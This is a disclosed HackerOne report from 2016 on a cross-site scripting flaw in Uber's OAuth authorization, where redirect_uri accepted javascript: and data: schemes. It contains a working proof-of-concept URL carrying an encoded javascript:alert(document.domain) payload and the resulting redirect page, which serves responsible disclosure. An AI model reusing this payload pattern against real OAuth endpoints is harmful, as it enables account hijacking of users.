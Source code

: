# XSS in uber oauth

## Report Details
- **Report ID**: 131052
- **URL**: https://hackerone.com/reports/131052
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-04-15T10:57:56.042Z
- **Disclosed**: 2016-07-26T00:27:22.726Z

## Reporter
- **Username**: zombiehelp54
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
Hi , I have found that when setting a `redirect_uri` for an application you validate for the presence of `://` in the beginning of the url , but you don't validate for the protocol and you don't block malicious protocols such as `javascript:` pseudo protocol and `data:` URIs.
Although the redirecting is done through `location` header , there still some cases in which this can be harmful to users and can be used to hijack users' accounts , moreover , `data:` URIs work on some modern browsers such as firefox. 
This also can be very harmful to users who chose to disable 302 redirection on their browser.

#PoC:

This PoC will work on latest version of opera mini mobile browser and it will also work on firefox with 302 redirection disabled. 

- Go to https://login.uber.com/oauth/authorize?client_id=MXeE1dl-5R3yTCbufMHsfz3KhfY2UGyS&response_type=code&scope=profile&redirect_uri=javascript:%2F%2Fgoog.com%2F%250Aalert%28document.domain%29%3B%2F%2F
- Click the Allow or the Deny button
- The response will be:
 
```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="javascript://goog.com/%0Aalert(document.domain);//?error=access_denied#_">javascript://goog.com/%0Aalert(document.domain);//?error=access_denied#_</a>.  If not click the link.
```
- As you can see , this will trigger XSS . 
I have attached a screenshot of XSS triggered on firefox (latest version) with 302 redirection disabled. 

The PoC will also work on old Mozilla and opera browsers , in browsers Mozilla 1.7.x (and previous versions) and Mozilla Firefox 3.0.12 , The browser will show “Object Moved” page. click on the link “here” and the code will execute.

Thanks



## Attachments
- uber_oauth_xss.png
